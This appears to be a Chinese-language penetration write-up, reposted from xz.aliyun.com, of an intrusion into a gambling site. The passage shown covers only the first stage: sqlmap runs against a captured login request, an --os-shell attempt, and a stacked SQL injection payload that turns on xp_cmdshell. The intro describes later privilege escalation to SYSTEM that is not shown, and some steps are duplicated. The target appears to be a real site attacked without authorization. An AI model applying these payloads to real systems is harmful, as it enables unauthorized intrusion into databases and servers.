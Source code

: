 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/8924)

前言
--

我们的小团队对偶然发现的 bc 站点进行的渗透, 从一开始只有 sqlmap 反弹的无回显 os-shell 到 CS 上线, 到配合 MSF 上传脏土豆提权, 到拿下 SYSTEM 权限的过程, 分享记录一下渗透过程

0x01: 登录框 sql 注入
----------------

看到登录框没什么好说的, 先试试 sqlmap 一把梭

[![](https://xz.aliyun.com/t/%E4%B8%AA%E4%BA%BA%E6%B8%97%E9%80%8F%E8%AE%B0%E5%BD%95-%E5%AF%B9%E6%9F%90bc%E7%AB%99%E7%9A%84%E5%AE%9E%E6%88%98%E6%B8%97%E9%80%8F/image-20201227024738519.png)](https://xz.aliyun.com/t/%E4%B8%AA%E4%BA%BA%E6%B8%97%E9%80%8F%E8%AE%B0%E5%BD%95-%E5%AF%B9%E6%9F%90bc%E7%AB%99%E7%9A%84%E5%AE%9E%E6%88%98%E6%B8%97%E9%80%8F/image-20201227024738519.png)

burp 抓包登录请求, 保存到文件直接跑一下试试

```
python3 sqlmap.py -r "2.txt"
```

有盲注和堆叠注入

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228165509-634b8b1e-48ea-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228165509-634b8b1e-48ea-1.png)  
burp 抓包登录请求, 保存到文件直接跑一下试试

```
python3 sqlmap.py -r "2.txt"
```

有盲注和堆叠注入

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228165530-705ae426-48ea-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228165530-705ae426-48ea-1.png)  
看看能不能直接用 sqlmap 拿 shell

```
python3 sqlmap.py -r "2.txt" --os-shell
```

目测不行

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228165545-79342f6c-48ea-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228165545-79342f6c-48ea-1.png)

提示的是`xp_cmdshell`未开启, 由于之前扫出来有堆叠注入, 尝试运用存储过程打开`xp_cmdshell`

Payload:

```
userName=admin';exec sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure'xp_cmdshell', 1;RECONFIGURE;WAITFOR DELAY '0:0:15' --&password=123
```

延时 15 秒, 执行成功 (如果没有堆叠注入就把每个语句拆开一句一句执行, 效果理论上应该是一样的)
